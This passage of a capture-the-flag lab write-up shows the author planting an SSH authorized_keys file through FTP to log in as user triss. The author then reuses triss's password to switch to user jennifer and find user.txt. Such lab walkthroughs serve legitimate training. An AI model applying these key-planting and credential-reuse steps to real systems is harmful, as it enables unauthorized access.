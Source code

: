 ```
└─$ ssh-keygen -t rsa                           
Generating public/private rsa key pair.
Enter file in which to save the key (/home/daz/.ssh/id_rsa): id_rsa
```

Make sure to leave the passphrase empty so we don't have to specify any passwords when attempting to authenticate. A couple things we'll need to do after generate the `private` and `public` key pairs is to change the `id_rsa.pub` file name to `authorized_keys` so SSH can utilize it as a proper key file. We'll also use `chmod 600` to both files to ensure that we can utilize them properly in the SSH context.

After that, we'll upload the `authorized_keys` file to the SSH directory.

```
ftp> put authorized_keys
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||16937|)
150 Ok to send data.
100% |*********************************************************************************|   562        2.18 MiB/s    00:00 ETA
226 Transfer complete.
562 bytes sent in 00:00 (2.45 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||48072|)
150 Here comes the directory listing.
-rw-------    1 1003     1003          562 Jun 01 20:31 authorized_keys
226 Directory send OK.
```

Now that we have the `authorized_keys` file uploaded, we can now authenticate with our private key to the machine. 

```
└─$ ssh -i id_rsa triss@10.10.118.167
......
triss@ip-10-10-200-238:~$
```

# Filesystem Enumeration

We now have SSH access as the user `triss`, though you won't find a user flag within their home directory.

We'll need to pivot to the other users on the machine. If you check the `/home` directory, you'll find users `httpd`, `jennifer`, `sa`, and `ubuntu`. We also aren't able to run anything as `sudo` as our current user.

I tested our creds for `triss` against all of these users, and we were able to login as `jennifer` with the same password.

```
triss@ip-10-10-200-238:~$ su jennifer
Password: 
jennifer@ip-10-10-200-238:/home/triss$ cd ~
jennifer@ip-10-10-200-238:~$ ls
user.txt
```
